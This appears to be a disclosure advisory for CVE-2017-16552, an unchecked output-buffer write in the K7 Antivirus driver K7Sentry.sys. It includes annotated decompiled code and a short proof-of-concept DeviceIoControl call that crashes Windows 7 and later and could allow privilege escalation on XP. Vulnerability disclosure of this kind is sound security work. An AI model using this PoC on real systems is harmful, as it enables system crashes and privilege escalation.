 # CVE-2017-16552

# Product / Component Affected

* **Product**: *K7 Antivirus Premium 15.1.0.53* 
* **Component**: *K7Sentry.sys 15.1.0.45*
  * SHA256: 7037F80EC73F4D6E2DFBD2AA675FF154F81AAB2FB7372680AAA1D2D41DB93771
  
# Details
The issue lies in the dispatch handler for the IRP_MJ_DEVICE_CONTROL (sub_00018FC0). The handler code for IoControlCode 0x950025AC does not check the length of the output buffer before using it and assigns a 4 byte value to the output buffer.

The code snippet below is the decompiled code which has been named and commented up to illustrate the problem.


```C++
PVOID *pOutputBuffer;

case 0x950025A8:
    v9 = sub_15A10(&stIoControlBuffer);
    goto LABEL_117;
case 0x950025AC:
    value_0_or_1 = PossiblySomethingLoggy();
    *v2 = 4;
    // Note: pOutputBuffer is the same as Irp->AssociatedIrp.SystemBuffer
    // VULN: No check has been performed before dereferencing that there is enough space to write
    // a 32-bit value to it.
    *pOutputBuffer = (PVOID)value_0_or_1;
    v9 = 0;
    goto LABEL_117;
case 0x950025B0:
    // CVE-2017-16554
    *pOutputBuffer = (PVOID)13;
    *((_BYTE *)pOutputBuffer + 4) = 0;
    *v2 = 13;
    v9 = 0;
    goto LABEL_117;
```

# PoC Code
This PoC will open a connection to the driver and call it with the approiate IOCTL code to geneate the crash.

```c++
HANDLE hDevice = CreateFileW(L"\\\\.\\k7sentry", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);
if (hDevice != INVALID_HANDLE_VALUE)
{
    DeviceIoControl(hDevice, 0x950025AC, (PVOID)arrInBuffer, 0, (PVOID)0xaaaaaaaa, 0, &dwBytesReturned, NULL);
}
```

On Windows XP, this will attempt to write the value 0 or 1 (depending on state) to *0xaaaaaaaa*. On this platform, this could be easily used for a privilege escallation.

On Windows 7 and above, this will attempt to write the value 0 or 1 (depending on state) to 0x00000000 and will cause a BSOD. This would simply be an availability issues.
